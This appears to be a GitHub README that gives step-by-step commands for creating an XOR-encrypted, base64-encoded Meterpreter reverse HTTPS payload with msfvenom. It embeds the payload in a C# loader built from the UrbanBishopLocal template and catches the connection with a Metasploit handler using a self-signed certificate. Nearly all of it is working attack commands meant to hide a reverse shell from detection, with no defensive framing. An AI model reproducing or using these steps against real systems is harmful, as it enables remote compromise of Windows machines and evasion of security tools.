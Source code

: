 # Payload-Obfuscation
Some Usefull tools and specific modus operanti to obfuscate payload  

### Payload generation

```sh
msfvenom -p windows/x64/meterpreter_reverse_https LHOST=OurIPADRESS LPORT=443 --encrypt xor --encrypt-key helloworld --format raw > testf
```  
helloworld are the key but we can write what we want.  

### Hex data dump

```sh
hexdump -v -e '"\\""x" 1/1 "%02x" ""' testf
```  

### Convert data to Base64  
```sh
base64 testf > newtest
```

### Generate Key and certificate to obfuscate more seriously
```sh
openssl req -newkey rsa:4096 \
            -x509 \
            -sha256 \
            -days 3650 \
            -nodes \
            -out example.crt \
            -keyout example.key
```  
- Concatenate two files in one 

example.key & example.crt > example.pem

### UrbanBishopLocal (for compile c# progam)  
- https://github.com/slyd0g/UrbanBishopLocal
on windows machine install git, netcore and vscode, in the vscode install the c# extension  
```sh
dotnet new console -o nameofproject
cd nameofproject
code . (allowing to open the progam.cs in vscode directly)
```   
--> in this part we will make a copy of the code in the UrbanBishopLocal folder which named program.cs --> it's template to make the obfuscation of our payload (just copy our base64 code at the end progam.cs), but also we specified the same key which we are defined in the msfvenom part.
#### don't forget the c# extension  

```sh
dotnet build
```  
### Metasploit

```sh
msfconsole  
use exploit/multi/handler  
set HandlerSSLCert /home/PATH/TO/THE/example.pem (of the key we are generate earlier)  
set StagerVerifySSLCert true  
set LHOST ourIPADRESS  
set LPORT 443  
exploit
```  
